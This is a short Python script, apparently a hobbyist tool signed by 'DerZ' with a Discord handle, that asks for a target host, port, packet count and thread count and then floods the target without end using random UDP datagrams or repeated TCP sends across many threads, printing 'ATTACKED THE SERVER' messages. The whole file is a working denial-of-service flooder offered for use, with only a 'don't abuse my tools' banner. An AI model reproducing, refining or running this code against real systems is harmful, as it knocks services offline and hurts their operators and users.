 #!/usr/bin/env python3
import random
import socket
import threading

print ("DerZ")                                                               

print       (" >> TOOLS CREATED BY DERZ <<")
print       (" >> DISCORD : DerZ#2861 << ")
print       (">> DON'T ABUSE MY TOOLS <<")                                   
print       (" >> DM ME IF YOU NEED HELP <<")
    
ip = str(input("  HOST/IP:"))
port = int(input(" PORT:"))
choice = str(input(" Yakin Nihh?(y/n):"))
times = int(input(" Paket:"))
threads = int(input(" Threads:"))
def run():
	data = random._urandom(1000)
	i = random.choice(("[+]","[-]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
			addr = (str(ip),int(port))
			for x in range(times):
				s.sendto(data,addr)
			print(i +" Xs XinZu ATTACKED THE SERVER")
		except:
			print("[!] ERROR SERVER TIME OUT")

def run2():
	data = random._urandom(16)
	i = random.choice(("[*]","[!]","[#]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
			s.connect((ip,port))
			s.send(data)
			for x in range(times):
				s.send(data)
			print(i +" DerZ ATTACKED THE SERVER ")
		except:
			s.close()
			print("[*] ERROR SERVER TIME OUT")
            
for y in range(threads):
	if choice == 'y':
		th = threading.Thread(target = run)
		th.start()
	else:
		th = threading.Thread(target = run2)
		th.start()
